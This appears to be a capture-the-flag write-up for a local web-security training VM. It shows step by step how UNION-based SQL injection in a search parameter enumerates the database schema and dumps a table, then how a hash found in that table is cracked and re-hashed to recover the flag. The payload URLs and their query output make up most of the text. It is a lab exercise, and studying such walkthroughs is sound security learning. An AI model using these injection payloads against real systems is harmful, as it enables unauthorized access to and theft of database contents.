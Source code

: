 # http://192.168.99.100/?page=searchimg&id=1&Submit=Submit


### same approach like previous flag, SQL injection via UNION


#### getting the table name:
###### http://192.168.99.100/?page=searchimg&id=-1 union select table_name, 0 from information_schema.tables where table_schema=database()&Submit=Submit

#### result:
```
ID: -1 union select table_name, 0 from information_schema.tables where table_schema=database() 
Title: 0
Url : list_images
```

#### getting the column names:
###### http://192.168.99.100/?page=searchimg&id=-1 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

#### result:
```
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: int(11)
Url : id
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(40)
Url : url
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(25)
Url : title
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(255)
Url : comment
```

#### getting juicy info
###### http://192.168.99.100/?page=searchimg&id=-1 union select title, comment from list_images&Submit=Submit

#### result:
```
ID: -1 union select title, comment from list_images 
Title: An image about the NSA !
Url : Nsa
ID: -1 union select title, comment from list_images 
Title: There is a number..
Url : 42 !
ID: -1 union select title, comment from list_images 
Title: Google it !
Url : Google
ID: -1 union select title, comment from list_images 
Title: Yes we can !
Url : Obama
ID: -1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
ID: -1 union select title, comment from list_images 
Title: Because why not ?
Url : tr00l
```

#### solution:

quick google search of the hash reveals that it's an md5 hash of the string _"albatroz"_
```
e1z2r8p32% echo -n 'albatroz' | shasum -a 256
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```
done
